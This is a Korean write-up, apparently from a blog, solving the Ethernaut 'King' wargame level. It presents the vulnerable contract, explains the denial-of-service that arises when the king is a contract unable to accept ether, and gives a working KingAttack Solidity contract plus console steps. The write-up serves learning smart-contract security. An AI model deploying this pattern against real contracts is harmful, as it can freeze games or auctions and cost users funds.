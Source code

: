 https://teberr.notion.site/Ethernaut-King-ee7e74038d4f4cd09ba1954f12534b45

![King.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d9412a04-2276-4f66-bed2-bfdda9784419/King.png)

> 현재 컨트랙트의 prize보다 더 많은 이더를 보내면 King이 되는 간단한 게임입니다.  
만약 인스턴스를 제출하게 되면 level 컨트랙트가 다시 king이 되려고 움직이게 됩니다. 우리는 level 컨트랙트가 king이 되지 못하도록 막으면 성공입니다.
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

# 코드 분석 및 공격 설계

이 컨트랙트의 인스턴스는 level이 생성하기 때문에 owner가 level 컨트랙트로 고정이 되어있다. 이 컨트랙트는 작동 구조가 현재 prize보다 많은 양의 이더를 받으면 받은 만큼 기존의 king에게 보내고 prize 값을 갱신하며 그 이더를 보낸 주소를 새로운 king으로 바꾸게 된다. 즉 다음에 king이 될 주소가 기존 king에게 더 많은 양의 이더를 보내주고 king의 권한을 얻는 구조이다.

그런데 owner인 level 컨트랙트는 이러한 과정을 거치지 않아도 된다. 

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

receive 함수의 조건인 require를 보면 owner는 prize 값보다 더 많은 양을 이 컨트랙트에 보내지 않고도 king이 될 수 있다. 그렇다면 어떻게 해야 내가 인스턴스를 제출했을 때 level이 king이 되지 못하도록 막을 수 있을까?

아예 컨트랙트 작동을 멈추게 만들면 된다. receive()함수 내에서 사용하는 transfer 함수는 

_to.transfer(msg.value) 형태로 사용이 되며 실패시 에러를 발생하는데 이더를 보내는데 실패하려면 전송 받는 쪽이 이더를 받을 수 없으면 된다.

그렇다면 이더를 받지 못하는 상황이란 어떻게 만들까? 컨트랙트를 만들되 receive 함수나 fallback 함수가 존재하지 않으면 이더를 받지 못하는 컨트랙트가 생성된다.

그러면 공격 시나리오는 정해졌다.

1. 이더를 받지 못하는 컨트랙트를 만든다.
2. 이더를 받지 못하는 컨트랙트가 king이 된다.
3. 문제 인스턴스를 제출하면 transfer를 통해 이더를 받지 못하는 컨트랙트에게 이더를 보내다 에러가 떠서 level 컨트랙트가 king이 되지 못한다. 

# 공격

먼저 king이 되기 위해서는 prize 값 보다 큰 이더를 보내야 하므로 prize 값을 알아야 한다.

![prize값.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/697bad57-be9d-4465-90a0-804afe04794a/prize%EA%B0%92.png)

```jsx
await contract.prize()
o {negative: 0, words: Array(3), length: 2, red: null}
	length:2
	negative:0
	red:null
	words:Array(3)
		0:13008896
		1:14901161
		length:3
		[[Prototype]]:Array(0)
	[[Prototype]]:Object
```

초기 prize 값이 조금 알아보기 힘들어서 스토리지에 직접 접근해서 prize 값을 읽어와 봤다 prize는 두번째 값이므로 1을 인자로 해주었다

```jsx
await web3.eth.getStorageAt('0x12286C1f9331521D7EAF882bDA53afA83ca61580',1)
'0x00000000000000000000000000000000000000000000000000038d7ea4c68000'
```

![이더.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a68f4f1e-2478-4b0d-80f1-3525105c1abe/%EC%9D%B4%EB%8D%94.png)

들어있는 prize의 값은 38d7ea4c68000 값인데 이는 10진수로 변환하면 10^15 Wei가 된다. 1이더가 10^18Wei이므로 0.001이더만큼 들어있음을 확인할 수 있다.

컨트랙트를 Remix에서 작성하여 컨트랙트의 주소로 king이 되어보자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.2;

contract KingAttack{

    constructor(address payable _addr) public payable{
         (bool sent, ) = _addr.call{value: msg.value}("");
         require(sent);
    }

}
```

call을 사용해서 msg.value만큼 이더를 보낼 것인데 문제와 똑같이 0.6.0버전으로 하니 call형식이 안맞는다고 떠서 컴파일이 되지 않아서 0.6.2버전으로 올렸다. 

배포를 하기 위해서 공격대상인 문제 컨트랙트의 인스턴스의 주소를 보면

![인스턴스 주소.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f259ba6d-5cfd-4ca8-befb-3372f45d3af7/%EC%9D%B8%EC%8A%A4%ED%84%B4%EC%8A%A4_%EC%A3%BC%EC%86%8C.png)

```jsx
=> Instance address
0x12286C1f9331521D7EAF882bDA53afA83ca61580
```

0x12286C1f9331521D7EAF882bDA53afA83ca61580 임을 알 수 있다.

![value와 주소 입력.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/58ba4cd5-da56-40c6-841c-0faf82a2bd5b/value%EC%99%80_%EC%A3%BC%EC%86%8C_%EC%9E%85%EB%A0%A5.png)

그럼 이제 Value는 1,000,000,000,000,000 Wei로(10^15) 설정하고 공격 대상 인스턴스의 주소를 넣어서 내 컨트랙트를 Deploy하자.

![배포된 컨트랙트.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fb8f1313-d3fb-4aa5-b40f-6fd2961b078c/%EB%B0%B0%ED%8F%AC%EB%90%9C_%EC%BB%A8%ED%8A%B8%EB%9E%99%ED%8A%B8.png)

confrimed 되고나면 ‘0x010D79534bAbc648cD3603cDff445A6356389De0’ 주소의 내 컨트랙트가 배포된 것을 확인할 수 있다. 

![king 탈취.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/26c22951-cff4-4e9a-9685-f84d3472b79d/king_%ED%83%88%EC%B7%A8.png)

```jsx
await contract._king()
'0x010D79534bAbc648cD3603cDff445A6356389De0'
```

또한 king 권한도 내 컨트랙트가 탈취한 것을 확인할 수 있다. 내 컨트랙트는 receive와 fallback 함수가 존재하지 않으므로 level 컨트랙트가 다시 king을 탈취하기 위해 문제 인스턴스에서 receive함수를 실행하고 나면 내 컨트랙트로 transfer를 보내다가 에러가 떠서 king 권한 탈취를 실패하게 될것이다. 인스턴스를 제출하자.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/857357f6-dcda-4a8c-b4b5-21f407860ac3/%EC%84%B1%EA%B3%B5.png)

성공하였다.

# 문제 후기

이 문제는 2016년 2월 6일부터 8일까지 있었던 [King of The Ether Throne](https://www.kingoftheether.com/thrones/kingoftheether/index.html) 컨트랙트에서 있었던 일을 기반으로 만든 문제다. 이 컨트랙트에서는 다른 컨트랙트로 이더를 보낼 때 소량의 가스인 2300으로 지정되어 결제를 처리하기에 충분한 가스가 아니라서 지불이 실패하게 되어 이더가 다시 King of the etherThrone 으로 반환되었다..

그런데 이 컨트랙트에서는 지불이 실패하였음을 인지하지 못해서 기존 monarch 에게 보상금이 지급되지 않았음에도 불구하고 msg.sender를 king으로 만드는 오류가 있었다.

[http://www.kingoftheether.com/postmortem.html](http://www.kingoftheether.com/postmortem.html)

문제를 풀기 위한 컨트랙트에서 receive와 fallback 함수를 아예 제거하여 풀었는데 생각해보니 receive 함수를 만들고 revert를 넣어서 고의적으로 transaction을 실패하게 만들어도 될 것 같다.
